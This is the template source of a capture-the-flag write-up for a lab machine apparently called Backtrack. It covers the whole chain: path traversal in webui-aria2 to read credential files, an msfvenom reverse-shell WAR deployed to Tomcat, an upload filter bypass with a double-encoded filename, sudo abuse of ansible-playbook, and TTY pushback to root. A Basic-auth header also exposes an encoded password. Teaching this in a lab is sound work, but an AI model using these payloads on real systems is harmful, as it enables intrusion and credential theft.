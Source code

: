 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an <strong>Nmap</strong> scan and try to find open ports.")}}

{{console("nmap -T5 -p- 10.10.156.56", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-14 14:01 EST
Warning: 10.10.156.56 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.156.56
Host is up (0.098s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
6800/tcp  open     unknown
8080/tcp  open     http-proxy
8888/tcp  open     sun-answerbook")}}

{{text("We find 4 open ports: ")}}

{{list(['22 (SSH)', '6800 (Unknown)', '8080 (HTTP)', '8888 (Sun-Answerbook)'])}}

{{text("We should investigate those ports further.")}}

{{console('nmap -sC -sV -p 22,6800,8080,8888 10.10.156.56', "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-14 14:10 EST
Nmap scan report for 10.10.156.56
Host is up (0.071s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 55:41:5a:65:e3:d8:c2:4f:59:a1:68:b6:79:8a:e3:fb (RSA)
|   256 79:8a:12:64:cc:5c:d2:b7:38:dd:4f:07:76:4f:92:e2 (ECDSA)
|_  256 ce:e2:28:01:5f:0f:6a:77:df:1e:0a:79:df:9a:54:47 (ED25519)
6800/tcp open  http            aria2 downloader JSON-RPC
|_http-title: Site doesn't have a title.
8080/tcp open  http            Apache Tomcat 8.5.93
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.93
8888/tcp open  sun-answerbook?
|   GetRequest: 
|     HTTP/1.1 200 OK
...")}}

{{text("We can see the name <code class='bg-gray-300 rounded-md px-1'>aria2</code>. After a quick search we discover that it is a file downloading tool.")}}

{{text("Visting the page on port 8888, we find the <code class='bg-gray-300 rounded-md px-1'>aria2</code> web application.")}}

{{image("../../static/images/backtrack/000001.jpg")}}

{{text("By checking the server info in the settings tab we discover the <code class='bg-gray-300 rounded-md px-1'>aria2</code> version is 1.35.0")}}

{{header("Shell as tomcat", "shell-as-tomcat")}}

{{text("While searching for a vulnerability in this version, we come across this.")}}

{{link("https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e", "https://github.com/favicon.ico", "webui-aria2 CVE-2023-39141")}}

{{text("It is a path travelsal vulnerability that allows us to read files outside the serving path.")}}

{{text("Let's try the payload provided.")}}

{{console("curl --path-as-is http://10.10.156.56:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd", "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
...
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
...")}}

{{text("The payload works and we are able to view the users that exist on the server. We notice the <code class='bg-gray-300 rounded-md px-1'>tomcat</code> user with home directory at <code class='bg-gray-300 rounded-md px-1'>/opt/tomcat</code>. Tomcat users are stored in a XML file, so if we can find it we should get our first set of credentials.")}}

{{text("Searching for tomcat users xml file location we learn that it should be at <code class='bg-gray-300 rounded-md px-1'>/conf/tomcat-users.xml</code>. Let's try to read this file.")}}

{{console("curl --path-as-is http://10.10.156.56:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml", "<?xml version='1.0' encoding='UTF-8'?>
<tomcat-users xmlns='http://tomcat.apache.org/xml'
              xmlns:xsi='http://www.w3.org/2001/XMLSchema-instance'
              xsi:schemaLocation='http://tomcat.apache.org/xml tomcat-users.xsd'
              version='1.0'>

  <role rolename='manager-script'/>
  <user username='tomcat' password='[REDACTED]' roles='manager-script'/>

</tomcat-users>")}}

{{text("Let's now switch to the <code class='bg-gray-300 rounded-md px-1'>tomcat</code> server at port 8080 and log in with our credentials by going to the <code class='bg-gray-300 rounded-md px-1'>Manager App</code>.")}}

{{image("../../static/images/backtrack/000002.jpg")}}

{{text("Sadly, we don't have neccessary permissions to access the GUI because of our <code class='bg-gray-300 rounded-md px-1'>manager-script</code> role.")}}

{{text("But we do have some permissions, so I searched for ways to exploit our role and found this article.")}}

{{link("https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00", "https://miro.medium.com/v2/5d8de952517e8160e40ef9841c781cdc14a5db313057fa3c3de41c6f5b494b19", "Exploiting Apache Tomcat manager-script role")}}

{{text("Let's use <strong>msfvenom</strong> to generate a payload with reverse shell.")}}

{{console("msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.4.147 LPORT=4445 -f war -o shell.war", "Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: shell.war")}}

{{text("Now we should be able to upload it to the web server.")}}

{{console("curl -v -u tomcat:[REDACTED] --upload-file pwn.war 'http://10.10.156.56:8080/manager/text/deploy?path=/foo&update=true'", "Trying 10.10.156.56:8080...
* Connected to 10.10.156.56 (10.10.156.56) port 8080
* using HTTP/1.x
* Server auth using Basic with user 'tomcat'
> PUT /manager/text/deploy?path=/foo&update=true HTTP/1.1
> Host: 10.10.156.56:8080
> Authorization: Basic dG9tY2F0Ok9QeDUyazUzRDhPa1RacHg0ZnI=
> User-Agent: curl/8.10.1
> Accept: */*
> Content-Length: 1101
> 
* upload completely sent off: 1101 bytes
...")}}

{{text("After setting up a listener, and going to <code class='bg-gray-300 rounded-md px-1'>http://10.10.156.56:8080/foo</code>, we should get back a reverse shell.")}}

{{text("Going to <code class='bg-gray-300 rounded-md px-1'>/opt/tomcat</code> allows us to view our first flag.")}}

{{image("../../static/images/backtrack/000003.jpg")}}

{{header("Shell as wilbur", "shell-as-wilbur")}}

{{text("While looking for privilage escalation vectors we discover this.")}}

{{console("sudo -l", "Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml")}}

{{text("We are able to run <code class='bg-gray-300 rounded-md px-1'>ansible-playbook</code> on all <code class='bg-gray-300 rounded-md px-1'>yml</code> files inside <code class='bg-gray-300 rounded-md px-1'>/opt/test_playbooks</code> as user <code class='bg-gray-300 rounded-md px-1'>wilbur</code>.")}}

{{text("We find how to exploit <code class='bg-gray-300 rounded-md px-1'>ansible-playbook</code> sudo privilages.")}}

{{link("https://gtfobins.github.io/gtfobins/ansible-playbook/", "https://gtfobins.github.io/assets/logo.png", "ansible-playbook")}}

{{image("../../static/images/backtrack/000004.jpg")}}

{{text("We are now the user <code class='bg-gray-300 rounded-md px-1'>wilbur</code>.")}}

{{header("Shell as orville", "shell-as-orville")}}

{{text("While navigating the files, we find a note from another user in our home directory.")}}

{{image("../../static/images/backtrack/000005.jpg")}}

{{text("We should try to look for the app mentioned in the note")}}

{{console("netstat -tulnp", "Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:6800            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -  
...")}}

{{text("Because our home directory also contained SSH credentials, we can use those to access the site on port 80.")}}

{{console("ssh -L 80:127.0.0.1:80 wilbur@10.10.156.56", "wilbur@10.10.156.56's password: 
...")}}

{{text("We now can go to <code class='bg-gray-300 rounded-md px-1'>http://127.0.0.1:80</code> on our local machine.")}}

{{image("../../static/images/backtrack/000006.jpg")}}

{{text("We discover a image gallery app, we can use the credentials we found in the note to log in.")}}

{{text("We are able to upload images, but not <code class='bg-gray-300 rounded-md px-1'>php</code> files. After testing I discovered that <code class='bg-gray-300 rounded-md px-1'>shell.png.php</code> goes through, but the <code class='bg-gray-300 rounded-md px-1'>php</code> still doesn't get executed.")}}

{{text("This was definitely the most confusing part of the room. What we had to do is <code class='bg-gray-300 rounded-md px-1'>double URL encode '../'</code> and our reverse shell should work.")}}

{{text("I used a <code class='bg-gray-300 rounded-md px-1'>PHP PentestMonkey</code> reverse shell from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>, named my file <code class='bg-gray-300 rounded-md px-1'>%252e%252e%252fshell.png.php</code>, set up a listener and uploaded the file.")}}

{{text("The reverse shell runs successfully and we get access to user <code class='bg-gray-300 rounded-md px-1'>orville</code>.")}}

{{text("We are able to find the second flag in our user home directory.")}}

{{image("../../static/images/backtrack/000008.jpg")}}

{{header("Shell as root", "shell-as-root")}}

{{text("While looking for ways to exploit the machine, I downloaded <code class='bg-gray-300 rounded-md px-1'>pspy64</code> using a python server and wget to see if any commands get run in the background.")}}

{{image("../../static/images/backtrack/000009.jpg")}}

{{text("Root switches user to <code class='bg-gray-300 rounded-md px-1'>orville</code> and runs a couple of commands as him.")}}

{{text("I searched on how to get back to being root after switching users and I stumbled upon this article.")}}

{{link("https://www.errno.fr/TTYPushback.html", "null", "The oldest privesc: injecting careless administrators' terminals using TTY pushback")}}

{{text("We modify the python code to add a <code class='bg-gray-300 rounded-md px-1'>s bit</code> to <code class='bg-gray-300 rounded-md px-1'>/bin/bash</code> in order to get root privilages.")}}

{{text("We create a <code class='bg-gray-300 rounded-md px-1'>.py</code> file with the following code.")}}

{{image("../../static/images/backtrack/000010.jpg")}}

{{text("Now when we run <code class='bg-gray-300 rounded-md px-1'>echo root.py >> .bashrc</code> and wait a while, we should be able to run bash as root and get our final flag.")}}

{{script()}}
















